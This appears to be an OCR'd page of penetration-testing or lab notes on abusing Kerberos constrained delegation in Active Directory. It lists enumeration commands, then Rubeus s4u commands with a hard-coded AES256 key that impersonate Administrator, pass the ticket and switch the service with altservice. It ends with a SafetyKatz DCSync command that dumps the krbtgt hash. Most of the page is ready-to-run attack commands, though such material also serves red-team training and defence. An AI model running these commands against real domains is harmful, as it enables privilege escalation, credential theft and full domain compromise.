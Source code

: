 To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in `msDS-AllowedToDelegateTo` of the `websvc` (web service on web server) account as **ANY user**

Find users and computers with constrained delegation enabled (PowerView + AD Module)
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne
"$null"} -Properties msDS-AllowedToDelegateTo
```

**COMPROMISE THE WEB SERVICE ACCOUNT AND RUN THE FOLLOWING AS IT**

Request a `TGT` and `TGS` and impersonate any user
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args s4u /user:STUDVM$ /aes256:777c150c5c1e2e3cef3861807fea59092e9a2d52308f2346cdc0b1d781292169 /impersonateuser:Administrator /msdsspn:"CIFS/mgmtsrv.tech.finance.corp" /ptt
```

Test
```powershell
dir \\mgmtsrv.tech.finance.corp\c$
```

 
> [!NOTE] **NOTE**
> You can edit what services the machine/user account can access if you have `GenericAll/Write` rights to the first hop

#### Protocol Transition
We can change the protocol/service being accessed for the SPN. This is due to the SPN in the TGS being in clear-text and user editable.

**FOR MACHINE ACCOUNT AES KEYS ALWAYS USE THE ONE WHERE THE SID IS `S-1-5-18` AKA THE LAST ONE IN A LSADUMP**

Rubeus and the `/altservice` parameter
> **Note:** Change to `altservice` to `ldap` to run dcsync
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args s4u /user:STUDVM$ /aes256:777c150c5c1e2e3cef3861807fea59092e9a2d52308f2346cdc0b1d781292169 /impersonateuser:Administrator /msdsspn:"CIFS/mgmtsrv.tech.finance.corp" /altservice:http /ptt
```

Now run a DCSync 
```powershell
.\Loader.exe -path .\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```